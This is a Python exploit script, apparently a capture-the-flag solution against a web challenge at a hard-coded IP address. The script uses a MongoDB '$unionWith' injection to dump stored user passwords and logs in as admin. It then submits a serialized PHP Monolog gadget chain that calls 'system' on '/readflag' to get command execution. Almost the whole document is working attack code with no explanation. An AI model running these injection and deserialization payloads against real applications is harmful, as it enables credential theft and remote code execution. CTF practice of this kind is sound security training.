 ```python
import requests
from urllib.parse import urljoin

URL = "http://178.62.9.10:31922/"
# URL = "http://localhost:1337/"


class API:
    def __init__(self, url=URL):
        self.session = requests.Session()
        self.url = url

    def products(self, **kwargs):
        res = self.session.post(urljoin(self.url, "/api/products"), **kwargs)
        return res.json()

    def login(self, password):
        res = self.session.post(urljoin(self.url, "/admin/api/auth/login"), data={
            "username": "admin",
            "password": password
        })
        return res.text

    def users_update(self, **kwargs):
        res = self.session.post(
            urljoin(self.url, "/admin/api/users/update"), **kwargs)
        return res.text

    def dashboard(self):
        res = self.session.get(urljoin(self.url, "/admin/dashboard"))
        return res.text


if __name__ == "__main__":
    api = API()
    # get admin password
    admin_creds = api.products(json=[{"$unionWith": "users"}])
    admin_creds = admin_creds[-1]
    # login with admin password
    print("password:", admin_creds['password'])
    api.login(admin_creds['password'])
    res = api.users_update(json={
        "_id": 1,
        "username": "admin",
        "password": "foo",
        "access": "a:2:{i:0;O:28:\"www_frontend_vendor_autoload\":0:{}i:1;O:37:\"Monolog\\Handler\\FingersCrossedHandler\":4:{s:16:\"\u0000*\u0000passthruLevel\";i:0;s:10:\"\u0000*\u0000handler\";r:3;s:9:\"\u0000*\u0000buffer\";a:1:{i:0;a:2:{i:0;s:9:\"/readflag\";s:5:\"level\";i:0;}}s:13:\"\u0000*\u0000processors\";a:2:{i:0;s:3:\"pos\";i:1;s:6:\"system\";}}}"
    },
        # proxies={"http": "http://0.0.0.0:8080"}
    )
    api.login("foo")
    flag = api.dashboard()
    print("Flag:", flag.splitlines()[-1])
```
